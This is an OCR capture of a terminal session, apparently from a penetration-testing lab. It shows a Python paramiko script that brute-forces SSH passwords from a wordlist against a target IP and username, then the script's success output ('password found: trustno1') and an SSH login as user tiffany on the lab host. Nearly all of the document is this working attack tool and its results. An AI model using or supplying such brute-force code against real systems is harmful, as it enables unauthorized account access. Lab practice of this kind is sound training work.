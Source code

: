 ```
no luck
password found: trustno1
                                                                                                             
┌──(kali㉿kali)-[~/Downloads/pentest_python]
└─$ cat ssh_bruteforce.py  
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        
        try:
            response = ssh_connect(password)

            if response == 0:
                 print('password found: '+ password)
                 exit(0)
            elif response == 1: 
                print('no luck')
        except Exception as e:
            print(e)
        pass

input_file.close()


┌──(kali㉿kali)-[~/Downloads/pentest_python]
└─$ ssh tiffany@10.10.172.250                         
The authenticity of host '10.10.172.250 (10.10.172.250)' can't be established.
ED25519 key fingerprint is SHA256:MgoZDcf1hgA5p0IOYxSn3wi6lE5IKxCCbXLv6fcjTC0.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.172.250' (ED25519) to the list of known hosts.
tiffany@10.10.172.250's password:  trustno1
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Oct  4 18:54:41 UTC 2022

  System load:  0.0               Processes:           94
  Usage of /:   4.8% of 29.02GB   Users logged in:     0
  Memory usage: 18%               IP address for eth0: 10.10.172.250
  Swap usage:   0%
```